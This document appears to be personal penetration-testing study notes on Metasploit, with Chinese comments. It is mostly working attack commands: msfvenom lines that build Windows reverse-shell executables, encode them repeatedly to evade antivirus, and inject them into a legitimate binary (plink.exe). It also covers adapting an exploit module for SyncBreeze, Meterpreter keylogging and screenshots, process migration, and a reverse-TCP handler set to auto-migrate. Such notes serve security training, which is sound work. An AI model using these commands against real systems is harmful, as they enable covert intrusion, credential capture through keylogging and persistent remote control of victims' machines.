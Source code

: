```
-p payload
lhost lport, listen ip and port
-f format(exe,)
-o output file
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o shell_reverse.exe

// encode 绕过 av 检测
-e , msf encoders
-i set the desired number of encoding interations
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

// 注入文件，绕过检测
-x ， specify file to inject into
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

//msfconsole  generate 
generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o test.exe
```

## build module

```
sudo mkdir -p /root/.msf4/modules/exploits/windows/http
sudo cp /usr/share/metasploit-framework/modules/exploits/windows/http/disk_pulse_enterprise_get.rb /root/.msf4/modules/exploits/windows/http/syncbreeze.rb

sudo vim /root/.msf4/modules/exploits/windows/http/syncbreeze.rb

update header information
update default option and settings,
update check
update exploit, uri exploit
```

### post-exploition
post-exploitation phase
gather information, take steps to maintain our access, pivot to other machines

```
meterpreter> screenshot
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop

```

migrating process
Using the migrate command, we can move the execution of our meterpreter to different processes
only able to migrate into a process executing at the same privilege and integrity level or lower than that of our current process.
```
ps
migrate pid

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show option
set lhost 192.168.119.196
//migrate meterpreter to another process after session create
set AutoRunScript post/windows/manage/migrate   
exploit
```